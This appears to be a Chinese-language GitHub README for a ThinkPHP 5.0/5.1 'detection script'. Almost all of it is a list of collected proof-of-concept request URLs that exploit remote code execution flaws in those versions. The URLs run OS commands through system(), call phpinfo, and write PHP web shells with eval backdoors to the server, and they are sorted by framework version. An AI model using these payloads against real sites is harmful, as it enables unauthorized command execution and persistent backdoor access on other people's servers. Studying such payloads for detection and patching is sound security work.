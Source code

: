 # thinkphp
thinkphp代码：
Thinkphp5.0.X系列检测脚本。
参考的payload:
如果不是用python测试的话，那么就要把里面的双反斜杠换为单反斜杠
互联网上面收集的poc
1、利用system函数远程命令执行

http://localhost/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

2.通过phpinfo函数写出phpinfo()的信息

http://localhost/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

3.写入shell:

http://localhost/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo ^<?php @eval($_GET["code"])?^>>shell.php

http://localhost/thinkphp5.1/html/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php?echo?'ok';?>

/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=phpinfo();

/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=eval($_POST[ian]);

/public/index.php?s=index/\think\Container/invokefunction&function=call_user_func&vars[0]=phpinfo&vars[1]=1


POC

TP版本5.0.21：

http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

TP版本5.0.22：
http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
TP5.1.*

thinkphp5.1.29为例
1、代码执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1
2、命令执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=操作系统命令
3、文件写入（写shell）：
http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
4、未知:
http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
5、代码执行:
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
6、命令执行:
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令
7、代码执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
8、命令执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令

